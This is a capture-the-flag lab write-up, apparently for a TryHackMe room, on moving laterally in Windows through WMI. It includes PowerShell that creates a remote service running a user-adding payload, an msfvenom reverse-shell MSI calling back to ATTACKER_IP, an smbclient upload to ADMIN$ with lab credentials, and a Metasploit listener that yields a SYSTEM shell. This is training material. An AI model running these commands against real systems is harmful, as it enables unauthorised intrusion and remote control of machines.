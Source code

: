 # Moving Laterally Using WMI

Windows Management Instrumentation (WMI) allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways:

***

### <mark style="color:green;">Creating Services Remotely with WMI</mark>

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Administrators

Create service

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

Start the service

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Stop and delete the service

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

***

### <mark style="color:green;">Installing MSI packages through WMI</mark>

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32\_Product class through WMI

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

***

***

<figure><img src="../../../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

## Task 2

Similar to the previous task, we need to move laterally from THMJMP2 to THMII but this time using MSI packages. Initial credentials are given (assume we captured with admin access)

User: `ZA.TRYHACKME.COM\t1_corine.waters`

Password: `Korine.1994`

***

Generate an MSI payload using this:

```bash
msfvenom -p windows/x64/shell_reverse_tcp -f msi LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -o file.msi
```

<figure><img src="../../../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

Proceed to use the current user's credentials to upload the payload to the ADMIN$ share of THMIIS using `smbclient`

```bash
smbclient -c 'put file.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

<figure><img src="../../../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

Set the listener on Metasploit

```
msfconsole
msf6 exploit(multi/handler) > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT <ATTACKER_PORT>
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on <ATTACKER_IP>:<ATTACKER_PORT>
```

SSH into the DNS setup credentials

<figure><img src="../../../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

Start a WMI session against THMIIS from a Powershell console:

```powershell
PS C:\> $username = 't1_corine.waters';
PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

Invoke the install method from Win32\_Product to trigger the payload

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\file.msi"; Options = ""; AllUsers = $false}
```

A callback is triggered. We are now SYSTEM and the pivot was successful

<figure><img src="../../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

Grab the flag

<figure><img src="../../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>
